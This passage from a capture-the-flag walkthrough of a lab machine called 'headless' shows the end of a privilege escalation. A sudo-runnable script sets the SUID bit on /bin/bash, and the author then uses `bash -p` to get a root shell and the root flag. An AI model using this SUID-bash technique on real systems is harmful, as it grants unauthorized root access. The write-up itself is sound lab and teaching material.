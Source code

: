 Here the idea is to create a file which when executed will set SUID bit to /bin/bash. Now lets execute the /usr/bin/syscheck with sudo command.

```bash
dvir@headless:~$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.03, 0.03
Database service is not running. Starting it...

# checking the permission of /bin/bash
dvir@headless:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```
SUID bit is set to user now by running `/bin/bash -p` when the binary has the SUID bit set, the -p option allows the default bash shell to run with SUID privileges.

From here we can escalate out previlege to root and tehn grab the root flag.

![root flag](./headless/root_flag.jpg)

Hurray! we successfully acquired the root flag 🤩.

Thankyou for reading my writeup cum walkthrough. Hope this was really informative and interesting for you.
